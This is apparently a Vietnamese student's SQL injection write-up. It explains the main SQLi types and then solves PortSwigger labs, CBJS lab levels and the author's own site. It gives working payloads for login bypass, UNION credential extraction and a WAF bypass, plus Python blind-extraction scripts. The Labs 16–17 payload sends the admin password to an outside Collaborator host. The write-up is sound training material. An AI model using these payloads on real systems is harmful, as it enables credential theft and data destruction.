

# Task 2

## Tìm hiểu về SQL injection

SQL injection (SQLi) là một lỗ hổng bảo mật web cho phép attacker can thiệp vào những câu truy vấn mà một ứng dụng thực hiện đối với cơ sở dữ liệu của nó. Điều này có thể cho phép attacker xem dữ liệu mà thông thường chúng không thể truy xuất được. Dữ liệu này có thể là thuộc về người dùng khác hoặc bất kỳ dữ liệu nào mà ứng dụng có thể truy cập. Trong nhiều trường hợp, attacker có thể sửa đổi hoặc xóa dữ liệu này, gây ra những thay đổi liên tục đối với nội dung hoặc hành vi của ứng dụng.

SQL injection có thể được chia thành 3 loại chính: In-band SQLi, Blind SQLi và Out-of-band SQLi.

### In-band SQLi (Classic SQLi)

In-band SQL injection là loại tấn công phổ biến và dễ khai thác nhất. Nó xảy ra khi attacker sử dụng cùng một kênh liên lạc để triển khai cuộc tấn công và thu thập kết quả.

- **Error-based SQLi**: Kỹ thuật tấn công này dựa vào thông báo lỗi được trả về từ máy chủ cơ sở dữ liệu để lấy thông tin về cấu trúc của cơ sở dữ liệu. Thông thường, chúng ta sẽ nhập những ký tự nhất định như `'` hoặc `"` vào input rồi quan sát xem có lỗi được trả về hay không.

- **Union-based SQLi**: Kỹ thuật tấn công này có thể được coi là nguy hiểm nhất trong SQL injection bởi vì nó cho phép attacker trực tiếp lấy được hầu hết các thông tin về cơ sở dữ liệu. Attacker sẽ tận dụng toán tử `UNION` để kết hợp kết quả của hai hay nhiều câu lệnh `SELECT` thành một kết quả đơn. Khi thực hiện kỹ thuật tấn công này, chúng ta cần xác định số cột được trả về từ câu truy vấn gốc và cột nào trong đó có loại dữ liệu phù hợp để có thể chứa được kết quả của câu truy vấn chúng ta chèn vào.

### Blind SQLi (Inferential SQLi)

Ở loại tấn công này, attacker không nhận được một response rõ ràng nào từ cơ sở dữ liệu. Thay vào đó, attacker có thể từng bước xây dựng lại cấu trúc của cơ sở dữ liệu bằng cách gửi các payload sau đó quan sát hành vi của máy chủ cơ sở dữ liệu và ứng dụng web.

- **Boolean-based SQLi**: Kỹ thuật tấn công này dựa vào việc gửi một câu truy vấn SQL tới cơ sở dữ liệu để khiến ứng dụng trả về một kết quả. Kết quả này có thể khác nhau phụ thuộc vào câu truy vấn trả về đúng hay sai. Khi thực hiện kỹ thuật này, chúng ta có thể thử với các điều kiện như `OR 1=1` và `OR 1=2` rồi quan sát sự khác nhau giữa những response của ứng dụng.

- **Time-based SQLi**: Kỹ thuật tấn công này dựa vào việc gửi một câu truy vấn SQL tới cơ sở dữ liệu để buộc nó phải đợi trong một khoảng thời gian xác định (tính bằng giây) trước khi phản hồi. Thời gian phản hồi sẽ giúp cho attacker biết được câu truy vấn là đúng hay sai. Khi thực hiện kỹ thuật này, chúng ta có thể sử dụng các payload khác nhau để chỉ định độ trễ của việc thực câu truy vấn tuỳ thuộc vào từng loại database cụ thể. Ví dụ như ở Microsoft SQL Server, chúng ta có thể sử dụng `'; IF (1=2) WAITFOR DELAY '0:0:10'--` và `'; IF (1=1) WAITFOR DELAY '0:0:10'--` để kiểm tra.

### Out-of-band SQLi

Out-of-band SQL injection không phổ biến lắm bởi nó phụ thuộc vào những tính năng được kích hoạt ở máy chủ cơ sở dữ liệu. Ở loại tấn công này, attacker không nhận được một response từ ứng dụng trên cùng một kênh liên lạc. Nhưng attacker có thể khiến cho ứng dụng gửi dữ liệu tới một remote endpoint mà họ điều khiển.

Việc khai thác Out-of-band SQLi chỉ có thể thực hiện được nếu máy chủ có những lệnh trigger DNS hay HTTP request.

### Nguồn tham khảo

- <https://portswigger.net/web-security/sql-injection>
- <https://www.acunetix.com/websitesecurity/sql-injection2/>

## Giải các bài lab SQL injection của PortSwigger

### Lab 1: [SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

> This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:
>
> ```sql
> SELECT * FROM products WHERE category = 'Gifts' AND released = 1
> ```
>
> To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

Truy cập vào lab, em thấy trang web cho phép chúng ta xem được tất cả các sản phẩm hoặc xem sản phẩm theo từng danh mục:


Bài lab yêu cầu chúng ta phải khiến cho ứng dụng hiển thị một hoặc nhiều sản phẩm chưa release.

Dựa vào câu truy vấn mà bài lab cung cấp, có thể hiểu rằng sản phẩm nào đã release thì `released = 1`, chúng ta cần xem cả những sản phầm chưa release nên cần bypass phần kiểm tra release này.

Do vậy, em thay đổi giá trị của `category` thành `' or 1=1--` sẽ bỏ được phần `AND released = 1` khỏi câu truy vấn. Lúc này câu truy vấn mà ứng dụng thực thi sẽ trở thành:

```sql
SELECT * FROM products WHERE category = '' or 1=1--' AND released = 1
```

Bởi vì `1=1` luôn đúng nên câu truy vấn sẽ trả về tất cả các sản phẩm bao gồm cả những sản phẩm chưa release:


### Lab 2: [SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

> This lab contains a SQL injection vulnerability in the login function.
>
> To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user.

Truy cập lab, em vào trang đăng nhập:


Bài lab yêu cầu chúng ta đăng nhập với user là `administrator` nhưng chúng ta không biết password, vậy cần bypass phần kiểm tra password. Em nhập username là `administrator'--` và password bất kì đã đăng nhập thành công:


### Lab 3: [SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

> This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.
>
> To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.

Truy cập lab, em vào xem sản phẩm theo danh mục Pets:


Bài lab yêu cầu chúng ta khiến câu truy vấn trả về thêm 1 hàng chứa các giá trị null nên em thử với payload `' UNION SELECT NULL--` nhận được lỗi:


Vậy là câu truy vấn trả về nhiều hơn 1 cột. Em thêm lần lượt giá trị null vào payload để kiểm tra và tới payload `' UNION SELECT NULL, NULL, NULL--` đã thành công:


### Lab 4: [SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

> This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.
>
> The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

Truy cập lab, em làm tương tự như lab 3 để tìm được số cột:


Giờ cần tìm cột có data type phù hợp để chứa được string `'hJ2Xhz'` nên em thay lần lượt string đó vào từng `NULL` trong payload.

Thử thay `'hJ2Xhz'` vào `NULL` đầu tiên nhận được lỗi:


Vậy là cột 1 không được rồi. Em thay tiếp string `'hJ2Xhz'` vào `NULL` thứ hai thì thành công:


### Lab 5: [SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

> This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
>
> To solve the lab, display the database version string.
>
> **Hint**
>
> On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.
>
> There is a built-in table on Oracle called `dual` which you can use for this purpose. For example: `UNION SELECT 'abc' FROM dual`

Truy cập lab, em vào xem danh mục Pets:


Bài lab yêu cầu chúng ta phải khiến cho ứng dụng trả về version của database.

Trước tiên, cần xem câu truy vấn ban đầu trả về bao nhiêu cột. Dựa vào hint, mỗi câu lệnh `SELECT` ở Oracle database phải chỉ định một bảng hợp lệ nên em sử dụng payload `' UNION SELECT NULL FROM dual--` để kiểm tra:


Đã có lỗi xảy ra, như vậy là câu truy vấn gốc trả về nhiều hơn 1 cột. Em tiếp tục thêm giá trị null vào để kiểm tra và xác định được số cột là 2.


Tiếp theo, cần xem cột nào có thể chứa string, em dùng payload `' UNION SELECT 'hehe', NULL FROM dual--` thấy được cột 1 có thể nhận string.


Giờ có thể lấy database version bằng cách sử dụng payload `' UNION SELECT banner, NULL FROM v$version--`:


### Lab 6: [SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

> This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
>
> To solve the lab, display the database version string.

Truy cập lab, em vào xem danh mục Gifts:


Trước tiên, em xác định số cột được trả về từ câu truy vấn là 2 bằng cách sử dụng payload `' UNION SELECT NULL, NULL--+`:


Tiếp theo, em xác định được cột 1 có thể chứa string bằng cách sử dụng payload `' UNION SELECT 'hehe', NULL--+`:


Và cuối cùng, em sử dụng payload `' UNION SELECT @@version, NULL--+` đã xem được database version:


### Lab 7: [SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

> This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
>
> The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
>
> To solve the lab, log in as the `administrator` user.

Truy cập lab, em vào xem danh mục Pets:


Tương tự như mấy lab trước, em biết được câu truy vấn trả về 2 cột và cột 1 có thể chứa string nên em sử dụng payload `' UNION SELECT table_name, NULL FROM information_schema.tables--` đã xem được danh sách các bảng của database:


Tiếp theo, em liệt kê các cột của bảng `users_jipqgs` bằng cách sử dụng payload `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_jipqgs'--` thấy được cột `password_uaaenk` và cột `username_unitwp`:


Em đọc nội dung của 2 cột đó sử dụng payload `' UNION SELECT password_uaaenk, username_unitwp FROM users_jipqgs--` thấy được thông tin của `administrator`:


Và cuối cùng đăng nhập thành công với `administrator`:`fvsh52kiu4l0i059vzsp`.

### Lab 8: [Lab: SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

> This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
>
> The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
>
> To solve the lab, log in as the `administrator` user.
>
> **Hint**
>
> On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.
>
> There is a built-in table on Oracle called `dual` which you can use for this purpose. For example: `UNION SELECT 'abc' FROM dual`

Tương tự như lab trước nhưng do ứng dụng sử dụng Oracle database nên payload có chút khác biệt. Em biết được số cột mà câu truy vấn trả về là 2 nên em sử dụng payload `' UNION SELECT table_name, NULL FROM all_tables--` để liệt kê các bảng của database:


Tiếp theo, em liệt kê các cột của bảng `USERS_XAFIWJ` sử dụng payload `' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='USERS_XAFIWJ'--` thấy được cột `PASSWORD_OSXRXI` và cột `USERNAME_ORDSTE`:


Em đọc nội dung của 2 cột đó sử dụng payload `' UNION SELECT PASSWORD_OSXRXI, USERNAME_ORDSTE FROM USERS_XAFIWJ--` thấy được thông tin của `administrator`:


Và cuối cùng đăng nhập thành công với `administrator`:`cf56hm9edw7pjhds65t3`.

### Lab 9: [SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

> This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.
>
> The database contains a different table called users, with columns called username and password.
>
> To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

Em sử dụng payload `' UNION SELECT table_name, NULL FROM information_schema.tables--` để liệt kê các bảng của database và thấy được bảng `users`:


Tiếp theo, để liệt kê các cột của bảng `users` em sử dụng payload `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--` thấy được cột `password` và cột `username`:


Em đọc 2 cột đó sử dụng payload `' UNION SELECT password, username FROM users--` thấy được thông tin của `administrator`:


Và cuối cùng đăng nhập thành công với `administrator`:`xv5cokudyrgg1jr7jvgk`.

### Lab 10: [SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

> This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
>
> The database contains a different table called `users`, with columns called `username` and `password`.
>
> To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

Truy cập lab, em vào xem danh mục Pets.

Em sử dụng payload `' UNION SELECT NULL, NULL--` xác định được câu truy vấn trả về 2 cột:


Tiếp theo cần xác định cột nào có thể chứa string. Em thay lần lượt `'hehe'` vào từng `NULL` trong payload thì xác định được cột 2 có thể chứa string:


Giờ em sẽ đọc nội dung của cột `username` và `password` trong bảng `users`. Nhưng chỉ có một cột có thể chứa string nên em dùng toán tử `||` để nối các giá trị lại với nhau, vậy có payload `' UNION SELECT NULL, username || ':' || password FROM users--`:


Và cuối cùng đăng nhập thành công với `administrator`:`mq2r88abp2y5z7y6xty0`.

### Lab 11: [Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
>
> The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.
>
> The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
>
> To solve the lab, log in as the administrator user.
>
> **Hint**
>
> You can assume that the password only contains lowercase, alphanumeric characters.

Theo như mô tả của bài lab, ứng dụng thực hiện câu truy vấn có chứa giá trị cookie. Nhưng kết quả của câu truy vấn đó lại không được trả về và chúng ta cũng không thấy được bất kì thông báo lỗi nào.

Tuy nhiên, ứng dụng lại hiển thị một dòng chữ `Welcome back!` khi câu truy vấn trả về hàng nào đó.


Em đổi giá trị của cookie `TrackingId` thành `' OR 1=1--` thì dòng chữ đó vẫn xuất hiện:


Em tiếp tục thử với payload `' OR 1=2--` thì không còn dòng chữ đó nữa:


Như vậy, chúng ta có thể dựa vào sự xuất hiện của dòng chữ `Welcome back!` để kiểm tra xem điều kiện chúng ta thêm vào câu truy vấn là đúng hay sai.

Tiếp theo, để tìm được độ dài của password, em sử dụng Burp Intruder.

Em đổi giá trị của cookie `TrackingId` thành `' OR (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)=§1§)='administrator`.


Em xác định được độ dài của password là 20:


Với độ dài đã biết của password, em viết script sau để tìm được chính xác password.

```python
import requests
import string

url = "https://0add0018045a73ad8068941d00c80074.web-security-academy.net/"
charset = string.ascii_lowercase + string.digits
password = ""

for i in range(1, 21):
    for j in charset:
        cookie = {"TrackingId":f"' OR SUBSTRING((SELECT password FROM users WHERE username='administrator'), {i}, 1)='{j}"}
        
        r = requests.get(url, cookies=cookie)
        if "Welcome back!" in r.text:
            password += j
            break

print(f"administrator:{password}")
```

Và cuối cùng đăng nhập thành công với `administrator`:`yeuo9hasc1hmsq2rxltz`.

### Lab 12: [Blind SQL injection with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
>
> The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.
>
> The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.
>
> To solve the lab, log in as the `administrator` user.
>
> **Hint**
>
> This lab uses an Oracle database. For more information, see the SQL injection cheat sheet.

Em thử thêm kí tự `'` vào giá trị của cookie `TrackingId` thì thấy xuất hiện lỗi:


Thêm tiếp kí tự `'` vào em thấy không còn lỗi:


Như vậy, chúng ta có thể tìm được password dựa vào thông báo lỗi này.

Em đổi giá trị của cookie `TrackingId` thành `' || (SELECT CASE WHEN LENGTH(password)=§1§ THEN '' ELSE TO_CHAR(1/0) END FROM users WHERE username='administrator') || '` để thực hiện brute-force độ dài của password sử dụng Burp Intruder:


Em xác định được độ dài của password là 20:


Tiếp theo, chúng ta cần lấy lần lượt từng kí tự trong password rồi so sánh với một kí tự để kiểm tra, nếu không có lỗi thì chúng ta sẽ lấy kí tự đó.

Em viết script sau để tìm được password.

```python
import requests
import string

url = "https://0a4000a50496098781107f6d00a500f7.web-security-academy.net/"
charset = string.ascii_lowercase + string.digits
password = ""

for i in range(1, 21):
    for j in charset:
        cookie = {"TrackingId": f"' || (SELECT CASE WHEN SUBSTR(password, {i}, 1)='{j}' THEN '' ELSE TO_CHAR(1/0) END FROM users WHERE username='administrator') || '"}
        r = requests.get(url, cookies=cookie)
        
        if r.status_code == 200:
            password += j
            break

print(f"administrator:{password}")
```

Và cuối cùng đăng nhập thành công với `administrator`:`anvjib2zbhzn8fb0sbnc`.

### Lab 13: [Visible error-based SQL injection](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)

> This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.
>
> The database contains a different table called users, with columns called username and password. To solve the lab, find a way to leak the password for the administrator user, then log in to their account.

Em thử thêm dấu `'` vào giá trị của cookie `TrackingId` thì thấy lỗi xuất hiện:


Từ lỗi trên, chúng ta có thể thấy được toàn bộ câu truy vấn.

Tiếp theo, em tận dụng hàm `CAST()` để tạo ra lỗi khi chuyển đổi loại dữ liệu từ `string` sang `int`. Em đổi giá trị của cookie `TrackingId` thành payload `' AND CAST((SELECT username FROM users LIMIT 1) AS int)=1--`. Gửi request đi, em nhận thấy user `administrator` nằm ở hàng đầu tiên trong bảng `users`:


Như vậy, chỉ cần đổi `username` thành `password` trong payload là chúng ta sẽ lấy được password:


Và cuối cùng đăng nhập thành công với `administrator`:`2qrqz8cwynn52caocn38`.

### Lab 14: [Blind SQL injection with time delays](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
>
> The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.
>
> To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay.

Bài lab yêu cầu chúng ta thực hiện khai thác SQL injection để khiến cho response bị trễ 10 giây.

Em đổi giá trị của cookie `TrackingId` thành `' || pg_sleep(10)--` đã thành công:


### Lab 15: [Blind SQL injection with time delays and information retrieval](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
>
> The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.
>
> The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.
>
> To solve the lab, log in as the `administrator` user.

Trước tiên, em đổi giá trị của cookie `TrackingId` thành payload `' || (SELECT CASE WHEN (1=1) THEN pg_sleep(2) ELSE pg_sleep(0) END)--` và gửi request thì thấy response sau khoảng 2 giây:


Đổi điều kiện `1=1` thành `1=2` trong payload thì em thấy response luôn:


Tiếp theo, em sử dụng payload `' || (SELECT CASE WHEN (username='administrator' AND LENGTH(password)=§1§) THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users)--` để thực hiện brute-force độ dài của password sử dụng Burp Intruder:


Em xác định được độ dài của password là 20:


Từ độ dài của password đã biết, em viết script sau để tìm được chính xác password:

```python
import requests
import string

url = "https://0a7600f20468356580e6ccf4002e00d3.web-security-academy.net/"
charset = string.ascii_lowercase + string.digits
password = ""

for i in range(1, 21):
    for j in charset:
        cookie = {"TrackingId": f"' || (SELECT CASE WHEN (username='administrator' AND SUBSTRING(password, {i}, 1)='{j}') THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users)--"}
        r = requests.get(url, cookies=cookie)

        if r.elapsed.total_seconds() > 2:
            password += j
            break

print(f"administrator:{password}")
```

Và cuối cùng đăng nhập thành công với `administrator`:`3lf409hp0t5cfg0gj3d9`.

### Lab 16: [Blind SQL injection with out-of-band interaction](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
>
> The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.
>
> To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

Bài lab yêu cầu chúng ta khiến database thực hiện DNS lookup tới Burp Collaborator.

Em đổi giá trị của cookie `TrackingId` thành payload `' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://4v0ombmznbre7v78btp19c635ublzcn1.oastify.com/"> %remote;]>'),'/l') FROM dual--`, encode URL rồi gửi request:


Sau đó, có thể quan sát thấy kết quả bên tab Collaborator:


### Lab 17: [Blind SQL injection with out-of-band data exfiltration](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
>
> The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.
>
> The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.
>
> To solve the lab, log in as the `administrator` user.

Bài lab yêu cầu chúng ta đăng nhập vào ứng dụng với user là `administrator`.

Trước tiên, chúng ta cần lấy được password, em đổi giá trị của cookie `TrackingId` thành payload `' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.mlb6ctchdthwxdxq1bfjzuwlvc16pwdl.oastify.com/"> %remote;]>'),'/l') FROM dual--`, encode URL rồi gửi request:


Đợi chút sẽ thấy được password là subdomain trong tab Collaborator:


Và cuối cùng đăng nhập thành công với `administrator`:`ljnfmtsp9sb2gaugtwce`.

### Lab 18: [SQL injection with filter bypass via XML encoding](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)

> This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.
>
> The database contains a `users` table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.
>
> **Hint**
>
> A web application firewall (WAF) will block requests that contain obvious signs of a SQL injection attack. You'll need to find a way to obfuscate your malicious query to bypass this filter. We recommend using the Hackvertor extension to do this.

Trước tiên, chúng ta cần bắt request khi check stock:


Em thử thêm payload `UNION SELECT NULL--` vào `productID` thì thấy thông báo `"Attack detected"`:


Để bypass được WAF, em sử dụng extension Hackverter để encode hex_entities:


Vậy là ứng dụng đã nhận payload. Tiếp theo, em sử dụng payload `UNION SELECT password FROM users WHERE username='administrator'--` đã lấy được password của user `administrator`.


Và cuối cùng đăng nhập thành công với `administrator`:`wpsmri0ycdrn69mt8mj9`.

## Khai thác SQL injection trên web đã viết ở Task 1

### SQLi ở chức năng xoá

Truy cập vào trang web thấy được giao diện như sau:


Inspect chữ `Xoá` ở dòng đầu tiên, em sửa giá trị của tham số `id` thành `66 OR 1=1--`:


Sau đó nhấn `Xoá` thì đã xoá được danh sách mentee:


### SQLi ở chức năng sửa

Tương tự, khi nhấn vào `Sửa`, em thay đổi giá trị của tham số `id` thành `72 OR 1=1--`:


Sau khi nhấn sửa thì các thông tin của những mentee còn lại giống với mentee có `id` là `72`:


## Khai thác SQL injection trên lab CBJS

### Sandbox

#### Interactive SQL Login (level 1)

Em nhập username là `admin'#` đã đăng nhập thành công:


#### Interactive SQL Login (level 2)

Em nhập username là `") or username='admin'#` đã đăng nhập thành công:


#### Tìm kiếm tin tức


Mục tiêu của chúng ta là cần lấy được password của admin.

Em nhập keyword là `a` thì thấy được câu truy vấn và kết quả truy vấn như sau:


Từ kết quả truy vấn trên, em xác định bảng `news` có 2 cột.

Em đoán cột `password` và cột `username` sẽ nằm trong bảng `users` nên em nhập keyword là `a' union select password, null from users where username='admin'#` đã thành công lấy được password:


### Basic

#### Level 1

Trước tiên, em đăng nhập thử với `admin`:`admin` thì thấy thông báo `Wrong username or password`:


Em đổi giá trị của `username` thành `admin'#` đã thành công:


Em cũng thử đổi giá trị của `password` thành `687AAB2D5FF60B93` cũng thành công:


#### Level 2

Trước tiên, em đăng nhập thử với `admin`:`admin` thì thấy thông báo `Wrong username or password`:


Em đổi giá trị của `username` thành `admin"#` đã thành công:


Cũng như level 1 em đổi giá trị của `password` thành `687AAB2D5FF60B93` cũng thành công:


#### Level 3

Trước tiên, em đăng nhập thử với `admin`:`admin` thì thấy thông báo `Wrong username or password`:


Em thử thay giá trị của `username` thành `"` thì thấy lỗi xuất hiện:


Vậy là giá trị của `username` được đưa vào hàm nào đó để xử lý.

Để bypass được, em đổi giá trị của `username` thành `admin")#`:


#### Level 6


Mục tiêu của bài này là chúng ta cần đọc được database version.

Em thử đổi giá trị của tham số `id` thành `2` thì thấy giá trị của attribute `src` thay đổi:


Vậy là ứng dụng sẽ lấy một URL theo id tương ứng trong bảng.

Em thay giá trị của tham số `id` thành `4` thì thấy thông báo `ID not found`:


Như vậy, có thể hiểu rằng với `id` là `4` thì kết quả được trả về từ câu truy vấn gốc không chứa hàng nào cả. Em tận dụng toán tử `UNION` để đưa kết quả của câu truy vấn chèn vào tới kết quả của câu truy vấn gốc.

Em thêm tiếp payload `UNION SELECT @@version`, encode URL rồi gửi request thì đã thấy được database version:


### Advanced

#### Level 7


Em thử đăng ký tài khoản với username là `a`, password là `a`, email là `a@a.com` sau đó đăng nhập thì thấy được giao diện sau:


Sau khi nhấn `Click here to show your Email` thì em thấy email mình vừa đăng ký hiện ra:


Có thể ứng dụng thực hiện câu truy vấn trả về email dựa trên username hoặc password đã đăng ký.

Thử tiếp đăng ký với username là `'`, password là `a`, email là `a@a.com` sau đó đăng nhập và nhấn `Click here to show your Email` thì em thấy lỗi xuất hiện:


Vậy là chúng ta có thể chèn câu truy vấn vào username khi đăng ký.

Em thực hiện đăng ký với username là `' union select password from users where username='admin'#`, password là `a`, email là `a@a.com` sau đó đăng nhập và nhấn `Click here to show your Email` thì đã thấy được password của user `admin`:


Và để lấy được hết thông tin từ bảng `users` như yêu cầu của bài. Em đăng ký với username là `' union select group_concat(id, '|', username, '|', password, '|', email) from users#`, password là `a`, email là `a@a.com` sau đó đăng nhập rồi nhấn `Click here to show your Email`:


